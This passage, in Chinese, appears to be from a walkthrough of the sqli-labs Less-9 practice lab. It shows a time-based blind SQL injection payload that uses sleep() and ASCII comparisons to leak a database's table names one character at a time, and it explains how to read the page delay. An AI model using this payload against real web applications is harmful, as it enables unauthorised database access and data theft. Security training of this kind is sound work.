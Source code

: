 

+ 注入如下语句逐一判断所有表名

~~~ shell
?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
~~~

![Less-9_8](./img/Less-9_8.png)



由于页面有延迟，说明所有数据表名第一个字符的<code>ASCII</code>值大于99

![Less-9_9](./img/Less-9_9.PNG)
